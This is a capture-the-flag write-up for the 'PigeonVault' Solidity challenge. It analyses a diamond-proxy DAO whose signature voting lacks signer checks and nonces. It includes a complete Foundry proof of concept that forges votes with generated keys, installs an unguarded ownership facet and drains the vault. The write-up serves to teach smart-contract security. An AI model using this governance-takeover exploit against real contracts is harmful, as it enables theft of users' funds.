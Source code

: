 # PigeonVault

## Challenge
We are provided with an abundance of contracts. Copying them all here wouldn't make sense, but they can all be found in the sources/repo. To keep it simple we have a diamond Proxy, which uses an ERC20 token for governance. There also is a DAO that can vote on proposals(changes of the functions/facets of the diamond proxy). Our goal is to steal all of the money from the proxy and also become its owner.

## Analysis 

As the codebase for this challenge was pretty huge, I decided to analyze the parts on their own first, to be able to use my notes afterward. At first, I decided to look at the facets, as these in the end contain the logic of the diamond contract.

### DAOFacet
- implements AppStorage
- includes functionality for creating & voting on proposals


### DiamondCutFacet
- does not implement AppStorage
- used for the diamondCut() function

### DiamondLoupeFacet
- does not implement AppStorage
- view only


### FTCFacet
- implements AppStorage
- token


### OwnershipFacet
- does not implement AppStorage
- only real function is to transfer the owner


### PigeonVaultFacet
- implements AppStorage
- probably the last step, has a function which lets you empty the contract if you are the owner


## Solution

The solution here lies in an issue in the voting system. When a vote is cast, multiple steps are happening:

1. Verify if the signer is an address other than 0
2. Verify if there already was a vote using this signature
3. Votes (as many as the msg.sender has delegated to him) are added to the chosen proposal
4. Signature is added to the list of already voted signers.

The problem is that the amount of tokens, that the msg.sender holds are added to the proposal, not the ones that the signer of the hash has. Also, there are no checks if msg.sender == signer. Additionally, as there are no nonces included in the msg that should be signed, one could reuse another user's signature that was used somewhere else. I found an interesting article that explains exactly how ecrecover works (https://soliditydeveloper.com/ecrecover). You can easily exploit this to pass any proposal you want using a few steps:

1. Generate Proposal
2. Delegate some votes to yourself
3. Generate arbitrary private keys
4. Sign the hash using them
5. Send these signatures as votes using your main account that holds voting rights
6. As each of these signatures results in a valid recovered address but is not in the list of the already voted you can do this x times.

But winning a proposal alone won't get you all the money. You will also need to become the owner and drain the money somehow. This leads to the final plan:

1. Call claim() on the setup contract to receive some tokens
2. Deploy your own OwnershipFacet which doesn't have any checks on who can change the owner
3. Delegate yourself the voting right for all your tokens
4. Build a Proposal that will add the function for changing the ownership you deployed earlier to the contract
5. Add the calldata for transferring the ownership to you to the proposal.
6. Wait 1 block 
7. Manipulate so your proposal has enough positive votes
8. Wait 6 blocks
9. Execute the proposal
10. Call emergencyWithdrawal() to get all the money.

So now I first had to develop the new OwnershipFacet(), which was pretty easy as I just removed functionality from the original one:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import {LibDiamond} from "./libraries/LibDiamond.sol";

contract OwnershipFacetChanged{
    function transferOwnershipEZ(address _newOwner) external {
        LibDiamond.setContractOwner(_newOwner);
    }
}
```

I then used my [ParadigmCTFDebugTemplate](https://github.com/J4X-98/SolidityCTFToolkit/blob/main/forge/paradigmTester.sol) to build a POC which shows how to solve the challenge. 

```solidity
// Description:
// A forge testcase which you can use to easily debug challenges that were built using the Paradigm CTF framework.

// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

import "forge-std/Test.sol";
//Import all needed contracts here (they are usually stored in /src in your foundry directory)
import "../src/Setup.sol";
import "../src/interfaces/IDAOFacet.sol";
import "../src/interfaces/IDiamondCut.sol";
import "../src/interfaces/IERC20.sol";
import "../src/interfaces/IOwnershipFacet.sol";
import "../src/interfaces/IPigeonVaultFacet.sol";
import "../src/PigeonDiamond.sol";
import "../src/OwnershipFacetChanged.sol";


contract ParadigmTest is Test {
    address public deployer = makeAddr("deployer");
    address public attacker = makeAddr("attacker");

    //Initialize any additional needed variables here
    Setup public setupContract;

    function setUp() public {
        vm.deal(deployer, 3000 ether);
        vm.startPrank(deployer);

        //Copy all code from the Setup.sol constructor() function into here
        setupContract = new Setup{value: 3000 ether}();

        vm.stopPrank();
    }

    function test() public {
        //30 eth are the standard for the paradigm framework, but this could be configured differently, you can easily check this by importing the rpc url and private key into metamask and checking the balance of the deployer account
        vm.deal(attacker, 1 ether); 
        vm.startPrank(attacker);

        //Code your solution here
        PigeonDiamond diamond = PigeonDiamond(payable(address(setupContract.pigeonDiamond())));

        //Claim our 10k token
        setupContract.claim();
       
        //We deploy our own OwnershipFacet which doesn't check who can change the owner
        OwnershipFacetChanged newOwnership = new OwnershipFacetChanged();

        //We set ourselves as the delegate for our 10k token
        IERC20(address(diamond)).delegate(address(attacker));

        //Generate our FacetCut struct with the right address & Selectors
        bytes4[] memory functionSelectors = new bytes4[](1);
        functionSelectors[0] = OwnershipFacetChanged.transferOwnershipEZ.selector;
        IDiamondCut.FacetCut memory cut = IDiamondCut.FacetCut(address(newOwnership), IDiamondCut.FacetCutAction.Add, functionSelectors);
    
        //Generate the calldata so the owner directly gets switched
        bytes memory calldataOwnerChange = abi.encodeWithSelector(OwnershipFacetChanged.transferOwnershipEZ.selector, address(attacker));

        //We submit our proposal
        uint256 proposalId = IDAOFacet(address(diamond)).submitProposal(address(newOwnership), calldataOwnerChange, cut);

        //We wait one block
        vm.roll(block.number + 1);

        //Variable for creating the signature
        uint256 privateKeyAttacker = uint256(keccak256(abi.encodePacked("attacker")));
        bytes32 hash = keccak256("\x19Ethereum Signed Message:\n32");

        //First we vote for ourselves
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(privateKeyAttacker, hash);
        bytes memory signature = abi.encodePacked(r, s, v); //v,r,s are in this order in the ecrecover
        IDAOFacet(address(diamond)).castVoteBySig(proposalId, true, signature);

        //We generate 15 private keys and sign a vote with each of them
        for (uint i = 1; i < 15; i++)
        {
            //Generate a valid signature 
            (uint8 v, bytes32 r, bytes32 s) = vm.sign(i, hash);
            signature = abi.encodePacked(r, s, v);

            //Vote using this signature
            IDAOFacet(address(diamond)).castVoteBySig(proposalId, true, signature);
        }

        //We wait for 6 blocks to be able to execute the proposal
        vm.roll(block.number + 6);

        //We execute the proposal
        IDAOFacet(address(diamond)).executeProposal(proposalId);

        //We call the emergencyWithdraw() function
        IPigeonVaultFacet(address(diamond)).emergencyWithdraw();

        assertEq(setupContract.isSolved(), true);

        vm.stopPrank();
    }
}
```

